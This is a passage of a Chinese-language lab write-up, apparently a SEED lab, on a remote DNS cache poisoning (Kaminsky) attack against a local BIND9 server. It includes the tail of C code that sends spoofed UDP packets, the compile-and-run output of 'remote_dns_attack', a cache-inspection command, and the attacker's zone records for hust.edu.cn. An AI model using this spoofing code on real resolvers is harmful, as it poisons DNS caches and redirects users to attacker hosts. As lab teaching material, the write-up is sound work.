 ```c
    struct udpheader* udp = (struct udpheader*)(buffer + sizeof(struct ipheader));
    udp->udph_chksum = udp_checksum(buffer, size - sizeof(struct ipheader));

    // No need to set the ip->iph_chksum, as it will be set by the system.
    // ip->iph_chksum = ip_checksum(buffer);

    // Provide needed information about destination.
    dest_info.sin_family = AF_INET;
    dest_info.sin_addr = ip->iph_destip;

    // Send the packet out.
    if (sendto(sock, buffer, size, 0, (struct sockaddr*)&dest_info, sizeof(dest_info)) < 0) {
        perror("PACKET NOT SENT!\n");
        return;
    }
    close(sock);
}
```

- 至此，攻击程序准备完毕，编译并运行攻击程序`remote_dns_attack`即可：

```shell
[05/04/22]seed@VM:~/.../2022.04.15.DNS$ gcc -o remote_dns_attack remote_dns_attack.c
[05/04/22]seed@VM:~/.../2022.04.15.DNS$ sudo ./remote_dns_attack 
Start attack...
Request Sent      Response Sent      Time Spent      Last Name
         531             106200              4s          dqdxa
```

- 在攻击过程中，保持目标`DNS`服务器和攻击者`DNS`服务器处于工作状态，时刻通过`rndc dumpdb -cache && cat /var/cache/bind/dump.db | grep xubiang`观察攻击信息是否已经写入缓存。
- 以下为一次具体的攻击，在观察到攻击信息已经写入缓存后停止攻击，在真实的攻击中，由于不能查看目标`DNS`服务器的缓存，可以根据目标`DNS`服务器向攻击方的恶意域名服务器发送询问报文来判断攻击成功（由于`Wireshark`截包的影响，软件运行时间仅作参考），缓存文件见`dump_remote.db`：

![2.4.3.攻击成功](https://raw.githubusercontent.com/BIIIANG/pic/main/202205042233894.png)

- 攻击过程中的`Wireshark`数据见`2.4.3-Kaminsky攻击.pncpng`，以下为正确猜测`ID`的请求和响应报文，分别对应数据包`50280`和`50333`：

![2.4.4.请求](https://raw.githubusercontent.com/BIIIANG/pic/main/202205042233649.png)

![2.4.5.响应](https://raw.githubusercontent.com/BIIIANG/pic/main/202205042233347.png)

- 注：在攻击过程中，有可能出现大量的伪造响应包的源端口变为`1`或`2`的情况，猜测原因与系统调度有关，具体原因不明，在暂停一段时间后可以自行恢复。
- 注：若在包发送过程中不计算`UDP`校验和，攻击仍能成功，且`BIND9`发送的报文的`UDP`校验和在`Wireshark`中均显示不正确，因此猜想`BIND9`可能为了效率或其他考虑而未使用`UDP`校验和，也有可能是由于使用的是`docker`导致的，确切原因不明。

## 2.5 结果验证

- 攻击者的`DNS`服务器的`hust.edu.cn`域设置如下（具体见`2.2.3 配置攻击机`）：

```
www             IN      A   192.168.33.136
mail            IN      A   192.168.11.11
ns              IN      A   192.168.22.22
*.hust.edu.cn.  IN      A   192.168.33.33
```
